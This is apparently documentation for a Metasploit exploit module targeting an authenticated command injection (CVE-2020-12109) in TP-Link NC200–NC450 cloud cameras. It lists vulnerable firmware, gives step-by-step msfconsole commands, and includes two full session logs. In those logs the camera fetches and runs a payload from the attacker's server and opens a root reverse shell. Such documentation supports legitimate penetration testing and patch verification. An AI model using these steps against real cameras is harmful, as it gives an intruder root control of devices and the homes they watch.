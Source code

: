 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, despite a check on the name 
length in `swSystemSetProductAliasCheck`, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in `swBonjourStartHTTP` as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
`/setsysname.cgi` due to proper input validation. NC210 devices are 
still vulnerable since `swBonjourStartHTTP` did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
**USERNAME**
The web interface username

**PASSWORD**
The web interface password for the specified username

**RHOSTS**
The target camera ip address

**RPORT**
The target port (TCP)

**TIMEOUT**
Timeout for the HTTP Server to wait for the ELF payload request

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:cGFzc3dvcmQ= ...
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > [+] Logged-in as admin
[+] Got cookie: ss8mgz2ohggbmkt
[+] Got token: tw74vc1jd946r0x
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing vsqjvhhj
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38152) at xxxx-xx-xx xx:xx:xx -0400
```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > 
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: iy6iaj6wugpxi3h
[+] Got token: 6dv47bk91xn57y8
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing izosypiw
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38128) at xxxx-xx-xx xx:xx:xx -0400
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
